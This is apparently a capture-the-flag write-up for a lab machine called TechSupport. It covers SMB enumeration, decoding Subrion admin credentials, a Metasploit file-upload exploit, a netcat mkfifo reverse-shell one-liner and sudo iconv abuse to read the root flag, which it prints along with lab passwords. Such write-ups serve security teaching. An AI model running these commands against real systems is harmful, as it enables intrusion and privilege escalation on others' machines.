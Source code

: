 ```yaml
---
aliases: []
sticker: emoji//1f469-200d-1f4bb
---
```

# ENUMERATION
---



## OPEN PORTS
---


| PORT | SERVICE |
| :--- | :------ |
| 22   | SSH     |
| 80   | HTTP    |
| 139  | SMB     |
| 445  | SMB     |



# RECONNAISSANCE
---

We got `smb` enabled, let's try anonymous login:

![](../images/Pasted%20image%2020250411151007.png)

There we go, we got an interesting share, let's check the contents inside of it:

![](../images/Pasted%20image%2020250411151101.png)

We got something called `enter.txt`, let's read the contents:

```
cat enter.txt

GOALS
=====
1)Make fake popup and host it online on Digital Ocean server
2)Fix subrion site, /subrion doesn't work, edit from panel
3)Edit wordpress website

IMP
===
Subrion creds
|->admin:7sKvntXdPEJaxazce9PXi24zaFrLiKWCk [cooked with magical formula]
Wordpress creds
|->
```

We got credentials for the WordPress site, let's check the website:


![](../images/Pasted%20image%2020250411151659.png)

We can fuzz and we find this:

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u "http://10.10.224.191/FUZZ" -ic -c -t 200

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.224.191/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

wordpress               [Status: 301, Size: 318, Words: 20, Lines: 10, Duration: 165ms]
test                    [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 161ms]
```


If we check the `test` directory, we can see this:

![](../images/Pasted%20image%2020250411151834.png)


In the `wordpress` directory, we can go to `wp-login.php` and test the credentials we got earlier:

```
admin:7sKvntXdPEJaxazce9PXi24zaFrLiKWCk
```


![](../images/Pasted%20image%2020250411152301.png)

They don't work, seems like they are not the credentials for WordPress, other stuff we are missing is the `/subrion` directory, if we try accessing it we get this:


![](../images/Pasted%20image%2020250411152549.png)

There's a redirection, if we follow it:

![](../images/Pasted%20image%2020250411152610.png)

It changes the host, seems weird, what if we try changing it back to the real host:

![](../images/Pasted%20image%2020250411152727.png)

No response still, seems like we are trying to access an invalid resource, maybe `/subrion/subrion` does not exist, we can try reading `robots.txt` and check if it works, let's change it in the base request:

![](../images/Pasted%20image%2020250411153009.png)

There we go, it does exist, we got some stuff:

```
User-agent: *
Disallow: /backup/
Disallow: /cron/?
Disallow: /front/
Disallow: /install/
Disallow: /panel/
Disallow: /tmp/
Disallow: /updates/
```


If we remember the message from `smb`, we can go inside of `panel` and edit the `/subrion` directory, which could mean we can use these credentials inside of the panel:

![](../images/Pasted%20image%2020250411153208.png)


```
admin:7sKvntXdPEJaxazce9PXi24zaFrLiKWCk
```

But wait, there is something that needs to be done with these still, let's proceed to exploitation.



# EXPLOITATION
---

```
Subrion creds

admin:7sKvntXdPEJaxazce9PXi24zaFrLiKWCk [cooked with magical formula]

```


Let's use CyberChef with the `magic` operation, we can see the following:



![](../images/Pasted%20image%2020250411153349.png)

There we go, we got the real password:

```
admin:Scam2021
```


![](../images/Pasted%20image%2020250411153512.png)

There we go, we got inside of the panel, let's check for an exploit regarding this version of `subrion`, we are dealing with `subrion 4.2.1`:

![](../images/Pasted%20image%2020250411153614.png)

We got `Arbitrary File Upload`, the module is on `metasploit` so we can use it to ensure it works:

![](../images/Pasted%20image%2020250411154612.png)

There we go, we got the shell, we can migrate to `netcat` 

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc IP 9001 >/tmp/f
```


![](../images/Pasted%20image%2020250411154740.png)

There we go, we got our netcat shell, let's proceed with privilege escalation.



# PRIVILEGE ESCALATION
---

Let's stabilize our shell:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
/usr/bin/script -qc /bin/bash /dev/null
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```

![](../images/Pasted%20image%2020250411154905.png)

If we use linpeas, we can see this:

![](../images/Pasted%20image%2020250411155553.png)

![](../images/Pasted%20image%2020250411155606.png)


```
scamsite:ImAScammerLOL!123!
```

Let's use this credentials in ssh:

![](../images/Pasted%20image%2020250411155627.png)

Let's check our sudo privileges:

```
scamsite@TechSupport:~$ sudo -l
Matching Defaults entries for scamsite on TechSupport:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User scamsite may run the following commands on TechSupport:
    (ALL) NOPASSWD: /usr/bin/iconv
```

We can run `iconv`, let's check it on GTFOBins:

![](../images/Pasted%20image%2020250411155740.png)

Nice, let's read `root.txt`:


```
sudo /usr/bin/iconv -f 8859_1 -t 8859_1 /root/root.txt
```

![](../images/Pasted%20image%2020250411160756.png)
```
scamsite@TechSupport:~$ sudo /usr/bin/iconv -f 8859_1 -t 8859_1 /root/root.txt
851b8233a8c09400ec30651bd1529bf1ed02790b
```

![](../images/Pasted%20image%2020250411160820.png)

